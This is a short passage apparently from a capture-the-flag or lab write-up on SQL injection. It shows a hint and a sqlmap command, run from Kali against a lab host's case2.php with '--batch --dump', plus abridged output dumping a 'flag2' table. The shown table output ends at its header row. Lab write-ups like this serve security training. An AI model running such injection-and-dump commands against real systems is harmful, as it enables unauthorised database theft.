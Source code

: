 *Hint: Use options "--batch --dump" to automatically dump all data.*

![](./attachments/Pasted%20image%2020220703124752.png)

```
┌──(kali㉿kali)-[~]
└─$ sqlmap 'http://157.245.33.77:32596/case2.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://157.245.33.77:32596' -H 'Connection: keep-alive' -H 'Referer: http://157.245.33.77:32596/case2.php' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'id=1' --batch --dump
        ___
       __H__                                                                                                                                                                              
 ___ ___["]_____ ___ ___  {1.6.5#stable}                                                                                                                                                  
|_ -| . [.]     | .'| . |                                                                                                                                                                 
|___|_  [(]_|_|_|__,|  _|                                                                                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:45:25 /2022-07-03/

[06:45:25] [INFO] resuming back-end DBMS 'mysql' 
[06:45:25] [INFO] testing connection to the target URL
(...)
[06:46:22] [INFO] fetching entries for table 'flag2' in database 'testdb'
Database: testdb
Table: flag2
[1 entry]
+----+----------------------------------------+
| id | content                                |
+----+----------------------------------------+
```